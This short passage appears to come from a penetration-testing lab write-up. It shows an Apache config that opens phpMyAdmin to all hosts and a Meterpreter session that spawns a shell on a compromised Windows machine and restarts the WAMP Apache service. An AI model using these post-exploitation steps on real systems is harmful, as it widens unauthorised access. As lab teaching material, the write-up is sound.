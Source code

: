 ```

<Directory "c:/wamp/apps/phpmyadmin3.4.10.1/">
    Options Indexes FollowSymLinks MultiViews
    AllowOverride all
        Allow from all 
</Directory>
```

```
meterpreter > shell
Process 1280 created.
Channel 6 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\wamp\alias>net stop wampapache
net stop wampapache
The wampapache service is stopping.
The wampapache service was stopped successfully.


C:\wamp\alias>net start wampapache
net start wampapache
The wampapache service is starting.
The wampapache service was started successfully.
```

![QQ图片20230506215406.png](/img/in-post/ine/QQ图片20230506215406.png)
